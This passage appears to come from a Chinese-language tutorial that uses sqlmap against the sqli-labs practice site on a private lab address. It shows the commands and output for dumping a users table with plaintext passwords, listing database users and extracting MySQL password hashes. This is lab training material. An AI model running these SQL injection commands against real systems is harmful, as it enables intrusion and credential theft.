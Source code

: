 ```shell
| Dumb     | Dumb       |
| dhakkan  | dumbo      |
| superman | genious    |
| Angelina | I-kill-you |
| batman   | mob!le     |
| Dummy    | p@ssword   |
| stupid   | stupidity  |
+----------+------------+

[22:59:43] [INFO] table 'security.users' dumped to CSV file '/home/hacker/.local/share/sqlmap/output/192.168.8.121/dump/security/users.csv'
[22:59:43] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[22:59:43] [WARNING] your sqlmap version is outdated

[*] ending @ 22:59:43 /2023-05-08/
```

这可比手工注入效率高，而且信息更多

**获取数据库的所有用户**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap -u "http://192.168.8.121/sql-lab/Less-1/?id=1" --users
```

```shell
database management system users [8]:
[*] ''@'centos7'
[*] ''@'localhost'
[*] 'dvwa'@'%'
[*] 'dvwa'@'localhost'
[*] 'root'@'127.0.0.1'
[*] 'root'@'::1'
[*] 'root'@'centos7'
[*] 'root'@'localhost'

[23:03:14] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[23:03:14] [WARNING] your sqlmap version is outdated

[*] ending @ 23:03:14 /2023-05-08/
```

**获取数据库的所有用户密码**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap -u "http://192.168.8.121/sql-lab/Less-1/?id=1" --passwords
```

```shell
database management system users password hashes:
[*] dvwa [1]:
    password hash: *A4B6157319038724E3560894F7F932C8886EBFCF
[*] root [2]:
    password hash: *CEFE1133B01A4A8E81B74E45883F8056BD67FB2C
    password hash: NULL

[23:05:21] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[23:05:21] [WARNING] your sqlmap version is outdated

[*] ending @ 23:05:21 /2023-05-08/
```
